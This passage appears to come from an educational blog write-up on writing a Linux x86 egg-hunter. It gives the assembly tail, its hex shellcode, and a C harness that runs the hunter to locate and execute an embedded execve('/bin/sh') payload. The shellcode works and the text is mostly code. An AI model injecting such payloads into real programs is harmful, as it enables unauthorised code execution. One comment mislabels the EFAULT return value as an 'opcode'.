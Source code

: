 	mov al, 0x21
	int 0x80

	cmp al, 0xf2		; 0xf2 is the opcode for EFAULT. If my register
				; has this value, a signal for a invalid page
				; access it has been received
	jz next_page

	mov eax, key
	mov edi, edx
	scasd

	jnz next_addr
 
	scasd
	jnz next_addr

	; At this point we are at the very beginning of our shellcode, after
	; the second key. We can jump to it
	jmp edi

section .data
	key equ 0xdeadbeef

{% endhighlight %}

The basic idea here is to traverse memory using EBX register as pointer and
access() system call to check if we're pointing a memory region we're allowed
to read. In this case we are in one of our process memory page and than our
second stage can be found there.


Dumping the shellcode I obtained:

{%highlight sh %}
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80\x3c\xf2\x74\xed\xb8\xef\xbe\xad\xde\x89\xd7\xaf\x75\xe8\xaf\x75\xe5\xff\xe7"
{%endhighlight %}

I added this shellcode into the same C program used in the first assignment to
test our shellcode and I executed it in order to check the payload is correct.

{%highlight c%}
#include<stdio.h>
#include<string.h>

unsigned char egg_hunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80\x3c\xf2\x74\xed\xb8\xef\xbe\xad\xde\x89\xd7\xaf\x75\xe8\xaf\x75\xe5\xff\xe7";

unsigned char code[] = \
"\xef\xbe\xad\xde\xef\xbe\xad\xde\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80";

		       
int main(int argc, char **argv)
{
	printf("Shellcode Length:  %d\n", strlen(code));
	printf("Egghunter Length:  %d\n", strlen(egg_hunter));
	int (*ret)() = (int(*)())egg_hunter;
	ret();
}

{% endhighlight %}
